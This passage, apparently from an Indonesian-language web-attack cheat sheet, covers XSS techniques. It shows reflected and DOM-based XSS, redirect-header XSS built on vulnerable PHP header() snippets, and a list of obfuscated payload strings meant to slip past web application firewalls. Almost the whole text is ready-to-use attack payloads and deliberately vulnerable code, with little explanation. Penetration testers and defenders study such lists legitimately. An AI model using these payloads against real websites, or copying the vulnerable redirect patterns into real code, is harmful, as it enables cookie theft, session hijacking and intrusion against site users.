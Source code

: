 Eksploitasi:

```js
/?xss=500); alert(document.cookie);//
```

#### XSS berbasis DOM

Contoh:

```js
<script> ... eval($\_GET\[xss\]); ... </script>
```

Eksploitasi:

```js
/?xss=document.cookie
```

#### XSS melalui Pengalihan permintaan

Kode yang rentan:

```js
...
header('Lokasi: '.$_GET['param']);
...
```

Serta:

```js
...
header('Refresh: 0; URL='.$_GET['param']); ...
```

Permintaan ini tidak akan melewati WAF:

```html
/?param=<javascript:alert(document.cookie>)
```

Permintaan ini akan melewati WAF dan serangan XSS akan dilakukan di browser tertentu:

```html
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### String ByPass WAF untuk XSS


- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`